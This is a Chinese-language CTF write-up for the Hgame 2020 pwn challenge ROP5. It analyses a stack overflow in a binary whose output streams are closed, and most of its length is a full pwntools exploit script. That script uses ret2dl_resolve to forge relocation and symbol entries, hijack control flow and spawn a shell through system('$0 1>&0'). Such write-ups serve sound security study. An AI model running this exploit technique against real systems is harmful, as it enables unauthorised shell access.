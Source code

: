 # 前言

这道题不难，算是`r2dl_resolve`的入门题。这几天开学在家自学，学到自闭，有一门课要连续上五天，每天自学100+页PPT，看两篇近两年内发布的论文，然后还要做persentation录成视频发给老师…截止时间是每天凌晨12点…PPT还要求是英文，课件也是英文…

这不，今天熬到十一点多，终于录完视频了，想着放松一下，随手翻出了Hgame的wp，看了看第四周的pwn，发现是`r2dl_resolve`的题目，还有现成的脚本，于是赶紧一键拿走。脚本作者是杭电vidar的`Veritas501`师傅，他博客里还有个x64的脚本，正好春节的时候有个x64的`r2dl_resolve`题还没做，先把脚本拿过来，明天再看hhh

## ROP5

- 题目描述：

  > Do you know the Lv.5? 
  > Just like Misaka Mikoto!

- 题目附件：[ROP5](https://cdn.jsdelivr.net/gh/TaQini/CTF@master/hgame2020/pwn/week4_1/ROP5)

- 考察点：r2dl_resolve

- 难度：困难

- 初始分值：500

- 最终分值：500

- 完成人数：14


## 程序分析

漏洞函数如下，存在缓冲区溢出：

```c
void vuln(void){
  undefined local_48 [68];
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("Are you the LEVEL5?");
  close(1);
  close(2);
  read(0,local_48,0x100);
  return;
}
```

## 解题思路
读数据前关闭了stdout和stderr，无法向stdout打印数据，因此不能通过puts来泄漏libc地址

也就是说需要直接执行`system('/bin/sh >&0')`来获取shell，于是只能通过`r2dl_reslove`实现

[Veritas501](https://veritas501.space/)师傅的文章有详细`r2dl_reslove`，还写了脚本，我就一键拿走了



## exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './ROP5'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def ret2dl_resolve_x86(ELF_obj,func_name,resolve_addr,fake_stage,do_slim=1):
    jmprel = ELF_obj.dynamic_value_by_tag("DT_JMPREL")#rel_plt
    relent = ELF_obj.dynamic_value_by_tag("DT_RELENT")
    symtab = ELF_obj.dynamic_value_by_tag("DT_SYMTAB")#dynsym
    syment = ELF_obj.dynamic_value_by_tag("DT_SYMENT")
    strtab = ELF_obj.dynamic_value_by_tag("DT_STRTAB")#dynstr
    versym = ELF_obj.dynamic_value_by_tag("DT_VERSYM")#version
    plt0 = ELF_obj.get_section_by_name('.plt').header.sh_addr

    p_name = fake_stage+8-strtab
    len_bypass_version = 8-(len(func_name)+1)%0x8
    sym_addr_offset = fake_stage+8+(len(func_name)+1)+len_bypass_version-symtab

    if sym_addr_offset%0x10 != 0:
        if sym_addr_offset%0x10 == 8:
            len_bypass_version+=8
            sym_addr_offset = fake_stage+8+(len(func_name)+1)+len_bypass_version-symtab
        else:
            error('something error!')

    fake_sym = sym_addr_offset/0x10

    while True:
        fake_ndx = u16(ELF_obj.read(versym+fake_sym*2,2))
        if fake_ndx != 0:
            fake_sym+=1
            len_bypass_version+=0x10
            continue
        else:
            break

    if do_slim:
        slim = len_bypass_version - len_bypass_version%8
        version = len_bypass_version%8
        resolve_data,resolve_call=ret2dl_resolve_x86(ELF_obj,func_name,resolve_addr,fake_stage+slim,0)
        return (resolve_data,resolve_call,fake_stage+slim)

    fake_r_info = fake_sym<<8|0x7
    reloc_offset=fake_stage-jmprel

    resolve_data = p32(resolve_addr)+p32(fake_r_info)+func_name+'\x00'
    resolve_data += 'a'*len_bypass_version
    resolve_data += p32(p_name)+p32(0)+p32(0)+p32(0x12)

    resolve_call = p32(plt0)+p32(reloc_offset)

    return (resolve_data,resolve_call)

# info
# gadget
pr  = 0x08048379 # pop ebx ; ret
p3r = 0x080485d9 # pop esi ; pop edi ; pop ebp ; ret

# elf, libc
stage = elf.bss()

# rop1
dl_data,dl_call,stage = ret2dl_resolve_x86(elf,'system',stage+0x200,stage)

offset = 72
payload = 'A'*offset
payload += p32(elf.sym['read']) + p32(p3r) + p32(0) + p32(stage) + p32(len(dl_data)+8)
payload += dl_call + p32(pr) + p32(stage+len(dl_data))

ru('Are you the LEVEL5?\n')
sl(payload)
raw_input('go')
sl(dl_data+'$0 1>&0\0')

p.interactive()
```

